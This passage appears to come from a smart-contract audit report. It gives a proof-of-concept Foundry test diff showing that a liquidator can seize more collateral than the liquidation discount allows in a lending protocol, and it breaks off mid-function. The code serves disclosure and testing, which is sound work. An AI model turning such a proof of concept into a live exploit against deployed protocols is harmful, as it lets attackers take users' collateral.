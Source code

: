 ### POC Code
Apply the following diff and run `testHash_LiquidateExcessUsingDouble`. It is asserted that a user can use this method to seize the entire collateral of the debt position even though it results in a much higher value than what should be actually allowed

```diff
diff --git a/protocol-v2/test/integration/LiquidationTest.t.sol b/protocol-v2/test/integration/LiquidationTest.t.sol
index beaca63..29e674a 100644
--- a/protocol-v2/test/integration/LiquidationTest.t.sol
+++ b/protocol-v2/test/integration/LiquidationTest.t.sol
@@ -48,6 +48,85 @@ contract LiquidationTest is BaseTest {
         vm.stopPrank();
     }
 
+    function testHash_LiquidateExcessUsingDouble() public {
+        vm.startPrank(user);
+        asset2.approve(address(positionManager), 1e18);
+
+        // deposit 1e18 asset2, borrow 1e18 asset1
+        Action[] memory actions = new Action[](7);
+        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
+        actions[1] = deposit(address(asset2), 1e18);
+        actions[2] = addToken(address(asset2));
+        actions[3] = borrow(fixedRatePool, 1e18);
+        actions[4] = approve(address(mockswap), address(asset1), 1e18);
+        bytes memory data = abi.encodeWithSelector(SWAP_FUNC_SELECTOR, address(asset1), address(asset2), 1e18);
+        actions[5] = exec(address(mockswap), 0, data);
+        actions[6] = addToken(address(asset3));
+        positionManager.processBatch(position, actions);
+        vm.stopPrank();
+        assertTrue(riskEngine.isPositionHealthy(position));
+
+        (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAssetValue) = riskEngine.getRiskData(position);
+
+        assertEq(totalAssetValue, 2e18);
+        assertEq(totalDebtValue, 1e18);
+        assertEq(minReqAssetValue, 2e18);
+
+        // modify asset2 price from 1eth to 0.9eth
+        // now there is 1e18 debt and 1.8e18 worth of asset2
+        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.9e18);
+        vm.prank(protocolOwner);
+        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
+        assertFalse(riskEngine.isPositionHealthy(position));
+        
+        // maximumSeizable amount with liquidation discount : 1388888888888888888 ie. 1.38e18
+        uint liquidationDiscount = riskEngine.riskModule().LIQUIDATION_DISCOUNT();
+        uint supposedMaximumSeizableAssetValue = totalDebtValue * 1e18 / (1e18 - liquidationDiscount);
+        uint maximumSeizableAssets = supposedMaximumSeizableAssetValue * 1e18 / 0.9e18;
+
+        assert(maximumSeizableAssets == 1388888888888888888);
+
+        DebtData memory debtData = DebtData({ poolId: fixedRatePool, amt: 1e18 });
+        DebtData[] memory debts = new DebtData[](1);
+        debts[0] = debtData;
+
+        // verifying that attempting to seize more results in a revert
+        // add dust to cause minimal excess
```